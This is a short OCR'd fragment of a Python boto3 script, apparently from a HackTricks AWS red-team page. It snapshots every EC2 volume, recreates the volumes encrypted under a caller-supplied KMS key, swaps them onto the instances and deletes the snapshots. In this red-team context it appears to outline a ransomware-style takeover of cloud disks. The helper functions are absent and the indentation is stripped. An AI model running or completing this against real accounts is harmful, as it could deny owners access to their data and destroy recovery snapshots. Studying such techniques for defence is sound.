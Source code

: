 ```

def main():
args = parse_arguments()
ec2_client = boto3.client('ec2', aws_access_key_id=args.access_key, aws_secret_access_key=args.secret_key, region_name=args.region)

instance_volumes = enumerate_ec2_instances(ec2_client)
all_volumes = [vol for vols in instance_volumes.values() for vol in vols]
snapshot_ids = snapshot_volumes(ec2_client, all_volumes)
wait_for_snapshots(ec2_client, snapshot_ids)
create_encrypted_volumes(ec2_client, snapshot_ids, args.kms_key_arn)
replace_volumes(ec2_client, instance_volumes)
delete_snapshots(ec2_client, snapshot_ids)

if __name__ == "__main__":
main()
```

<details><summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
